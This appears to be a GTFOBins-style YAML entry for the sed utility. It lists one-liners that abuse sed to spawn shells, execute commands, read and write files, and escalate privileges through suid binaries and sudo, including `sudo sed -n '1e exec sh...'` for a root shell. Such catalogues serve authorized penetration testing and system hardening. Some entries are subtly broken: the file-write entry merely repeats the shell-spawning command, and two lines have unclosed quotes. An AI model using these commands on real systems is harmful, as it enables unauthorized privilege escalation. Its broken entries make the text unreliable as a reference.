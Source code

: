 ```yaml
---
name: sed
functions:
  shell:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
  command:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n '1e exec sh 1>&0 /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
---
```

